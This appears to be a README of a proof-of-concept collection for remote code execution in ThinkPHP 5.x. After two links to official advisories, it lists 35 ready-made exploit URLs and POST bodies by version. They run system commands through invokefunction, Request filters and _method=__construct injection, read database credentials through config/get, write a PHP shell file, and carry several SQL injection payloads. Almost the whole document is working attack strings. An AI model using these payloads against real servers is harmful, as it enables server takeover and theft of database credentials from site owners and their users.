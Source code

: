# thinkphp-RCE-POC
官方公告:

```

1、https://blog.thinkphp.cn/869075

2、https://blog.thinkphp.cn/910675
```

POC:

# thinkphp 5.0.22
```
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username

2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password

3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
# thinkphp 5
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1
'''
# thinkphp 5.0.21
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

'''
# thinkphp 5.1.*
```
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1

9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd

10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E

12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd

14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
```

# 未知版本
```

16、?s=index/\think\module/action/param1/${@phpinfo()}

17、?s=index/\think\Module/Action/Param/${@phpinfo()}

18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}

19、index.php?s=/home/article/view_recent/name/1' 
header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"

20、index.php?s=/home/shopcart/getPricetotal/tag/1%27

21、index.php?s=/home/shopcart/getpriceNum/id/1%27

22、index.php?s=/home/user/cut/id/1%27

23、index.php?s=/home/service/index/id/1%27
24、index.php?s=/home/pay/chongzhi/orderid/1%27

25、index.php?s=/home/pay/index/orderid/1%27

26、index.php?s=/home/order/complete/id/1%27

27、index.php?s=/home/order/complete/id/1%27

28、index.php?s=/home/order/detail/id/1%27

29、index.php?s=/home/order/cancel/id/1%27

30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+

31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1
    Content-Disposition: form-data; name="couponid"
1') union select sleep('''+str(sleep_time)+''')#

```

# thinkphp 5.0.23（完整版）debug模式
```

32、(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx
```

# thinkphp 5.0.23(完整版)

```

33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al

```

# thinkphp 5.0.10（完整版）

```

34、(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system

```

# thinkphp 5.1.* 和 5.2.* 和 5.0.*

```

35、(post)public/index.php (data)c=exec&f=calc.exe&_method=filter

```
